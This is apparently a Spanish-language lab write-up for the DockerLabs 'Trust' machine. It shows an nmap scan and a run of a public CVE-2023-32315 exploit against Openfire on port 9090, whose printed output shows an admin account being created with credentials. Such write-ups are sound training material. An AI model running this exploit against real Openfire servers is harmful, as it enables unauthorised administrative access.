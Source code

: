 # Maquina Trust - DockerLabs

* Nivel : Medio
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 172.17.0.2

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 172.18.0.2
```

El escaneo me da varios puertos abiertos, me dice que esta usando un protocolo de XMPP, Openfire 3.10.0. Uno de los puertos el 9090 es un login.

## Puerto 9090

Aparece un login de openfire. Buscare algún exploit para su verisón.

En github he encontrado el siguiente exploit : https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT/blob/main/CVE-2023-32315.py, que da el user y el password para acceder al openfire login.

```bash
python3 CVE-2023-32315.py -u http://172.17.0.2:9090

 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██████  ██████  ██████   ██ ███████
██      ██    ██ ██                 ██ ██  ████      ██      ██            ██      ██      ██ ███ ██     
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████  █████   █████   █████   ██ ███████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██ ██           ██  ██      ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████        ██████  ███████ ██████   ██ ███████

Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Launching exploit against: http://172.17.0.2:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW

```
